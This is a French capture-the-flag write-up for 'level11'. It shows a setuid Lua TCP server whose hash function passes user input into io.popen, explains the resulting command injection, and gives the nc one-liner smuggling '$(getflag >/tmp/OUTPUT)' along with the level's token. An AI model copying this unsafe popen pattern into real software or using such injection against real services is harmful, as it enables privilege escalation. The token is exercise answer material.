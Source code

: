 # [level11]

### Observations
##### J'affiche le programme '~/level11.lua':
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

##### Détails du programme:
```bash
-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
```

Je me rend compte que ce programme est exécuté par défaut en tant qu'utilisateur`flag11` grâce à la commande:
```sh
ps aux | grep flag11
```

##### Entrées du programme:
```lua
string mot_de_passe
```

##### Fonctionnement:
Le programme est un serveur tcp qui tente de hasher la chaîne de caractères entrée par l'utilisateur. \
Il compare ensuite la chaîne hashée avec une chaîne prédefinie pour afficher différents messages ***~~inutiles~~***. 

> Le serveur est hebergé sur l'addresse ip '127.0.0.1' avec le port '5151'.

> Le serveur est exécute en arriere-plan gràce a cron par defaut.

##### Conclusions:
La fonction hash a une vulnérabilité qui nous laisse exécuter du code shell comme nous le voulons. \
Vu que ce programme est exécuté par l'utilisateur `flag11` par défaut nous pouvons avoir accès à son flag.

> La ligne suivante est la cause de la vulnérabilité: \
> prog = io.popen("echo "..pass.." | sha1sum", "r")

### Résolution
J'effectue une commande qui permet d'obtenir le résultat de la commande `getflag` une fois dans le programme. \
Elle fonctionne car il suffit de créer un sous shell pour sortir de l'exécution classique du programme.\
Par la suite je redirige la sortie de cette dernière dans un fichier accessible car je ne pouvais pas la voir autrement. \
J'affiche ensuite le contenu de ce fichier.

#### commandes:
```sh
nc 127.0.0.1 5151 <<<'$(getflag >/tmp/OUTPUT)'
cat /tmp/OUTPUT
```

**token :** fa6v5ateaw21peobuub8ipe6s